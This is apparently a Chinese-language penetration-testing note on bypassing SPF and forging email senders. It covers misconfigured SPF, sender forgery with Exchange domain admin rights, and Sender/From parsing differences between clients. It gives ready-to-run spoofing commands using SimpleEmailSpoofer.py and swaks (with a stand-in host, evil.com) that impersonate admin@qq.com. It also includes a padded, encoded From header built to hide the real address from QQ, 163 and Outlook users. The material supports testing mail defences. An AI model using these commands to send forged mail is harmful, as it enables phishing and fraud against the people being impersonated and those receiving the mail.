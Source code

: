 - SPF解析不当导致绕过

	- v=spf1 ip4:220.xxx.10.0/24 ~all
限定ip范围过大
软拒绝会接受来信,但可能被标记为垃圾邮件
当SPF记录设置成~all时,outlook邮箱可以接收邮件,QQ邮箱不接收,163邮箱被标记为垃圾邮件

验证域名的SPF记录是否配置正确:https://www.kitterman.com/spf/validate.html

- SPF配置不当导致绕过

	- 配置步骤:
1.在域名中增加SPF记录,向支持SPF功能的邮件服务器提供验证信息
2.配置邮件服务器支持SPF

问题:
1.域名增加了SPF记录,但邮件服务器不支持SPF检查或邮件网关未开启SPF检测,无法验证邮件来源
2.SPF解析在公网DNS,邮件服务器配置内部DNS,内部DNS无法进行SPF解析
3.攻击者在公司内网,内网SMTP服务器开启匿名邮件发送或者在信任中继服务器IP段

python SimpleEmailSpoofer.py -t [目标邮箱]  -n QQ邮箱管理员 -f admin@qq.com -j "邮件主题"  -e 1.txt  -s [内网邮件服务器IP]

- 高权限用户绕过

	- Exchange邮箱系统,拥有Domain admin权限的域用户,可通过outlook直接指定发件人,伪造任意发件人发送邮件,且邮件头无法显示真实IP

- 邮件客户端内容解析差异

	- Sender字段,代表的是邮件的实际发送者,邮件接收方会对它的邮件域名进行SPF检测,确认是否包含了发信人的IP地址
From字段,代表的是邮件发送人,即邮件里所显示的发件人,容易被伪造
在SPF配置有效的情况下,Sender必须通过SPF检验,所以我们可以设置为正常的邮件服务器地址,然后对From字段进行伪造
sudo ./swaks --to 67*****28@qq.com  --from admin@evil.com  --h-From: '=?GB2312?B?UVHTys/kudzA7dSx?= <admin@qq.com>' --ehlo evil.com --body hello --header "Subject: test"
--from   <实际发件人，对应Sender字段>
--h-From <邮件显示的发件人，对应From字段>
QQ邮箱网页版查看邮件,Sender和From字段不一样时,发件人的位置显示由admin@evil.com代发
使用Foxmail客户端查看同一封邮件,Sender和From字段不一样时,不显示代发,伪造成功
分别使用网页版邮箱和客户端邮箱打开同一封邮件,通过对比可以发现,不同的邮件客户端对发件人位置的内容解析是不一样的
qq邮箱、163邮箱网页版均会显示代发,Outlook邮箱不显示代发,具体邮件客户端软件可具体再行测试

- From字段名截断绕过

	- 当伪造邮件发送成功时,由于Sender和From字段不一样,部分邮件客户端接收邮件后,会提示邮件代发
在用SMTP发送电子邮件时,发件人别名,格式为:From:发件人别名<邮件地址>。通过对发件人别名字段填充大量的特殊字符,使邮箱客户端截取真实的邮件地址失败,从而只展示伪造的发件人别名和伪造邮箱
邮件伪造测试:
1.在QQ邮箱中导出mail.eml文件,删除前面不必要的字段信息
2.填充发件人别名,伪造邮件头From字段
From:=?gb2312?B?udzA7dSxIDxhZG1pbkBxcS5jb20+0aGhoaGhoaGhoaGhoaGhoaGhoaGhoQ==?=
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoSAgICAgICAgICAgICAgICAgIKGkoaQ=?=
=?gb2312?B?oaQgICAgICAgICAgICAgICAgIKGhICAgICAgIKGkoaShpA==?=  <admin@test.com>
3.使用--data参数发送邮件
sudo ./swaks --data mail.eml --to xx@qq.com --from admin@test.com
